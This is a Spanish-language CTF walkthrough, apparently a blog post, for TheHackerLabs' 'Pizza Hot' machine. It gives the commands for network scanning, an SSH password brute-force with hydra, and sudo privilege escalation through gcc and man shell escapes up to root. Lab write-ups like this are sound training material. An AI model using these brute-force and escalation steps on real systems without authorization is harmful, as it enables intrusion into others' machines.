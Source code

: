 ```yaml
---
layout: post
title: "Pizza Hot"
date: 2024-06-16 17:15:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pizza Hot </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/pizzahot/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/PizzaHot/host.png){:.margin}

**1\.** Enumo dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios.

`sudo nmap -p- --open -sCV -T5 -n -Pn --min-rate=5000 192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/nmap.png){:.margin}

**3\.** Visito la web, revisando la fuente encuentro un usuario potencial.

![img](/notas/public/img/thehackerlabs/PizzaHot/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/PizzaHot/80code.png){:.margin}

**4\.** Bruteforce con hydra al ssh.

`hydra -l pizzapiña -P /usr/share/wordlists/wockyou.txt ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/hydra.png){:.margin}

**5\.** Conectandome por ssh con el usuario pizzapiña.

`ssh pizzapiña@192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/ssh.png){:.margin}

**6\.** Viendo nuestros permisos sudo, tengo el binario gcc que puedo ejecutar como pizzasinpiña.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol.png){:.margin}

**7\.** En [gtfobins](https://gtfobins.github.io/gtfobins/gcc/#sudo) tenemos el comando para escalar o en este caso migrar de usuario.

`sudo -u pizzasinpiña gcc -wrapper /usr/bin/bash,-s .`

![img](/notas/public/img/thehackerlabs/PizzaHot/pizzasinpiña.png){:.margin}

**8\.** Ahora tenemos un binario que podemos ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol2.png){:.margin}

**9\.** Escalando privilegios a root, [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo).

_9.1- Ejecutamos el siguiente comando_

`sudo -u root man man`

![img](/notas/public/img/thehackerlabs/PizzaHot/man.png){:.margin}

_9.2- En este punto nos lanzamos una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/PizzaHot/man2.png){:.margin}

_9.3- Ya somos root_

![img](/notas/public/img/thehackerlabs/PizzaHot/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>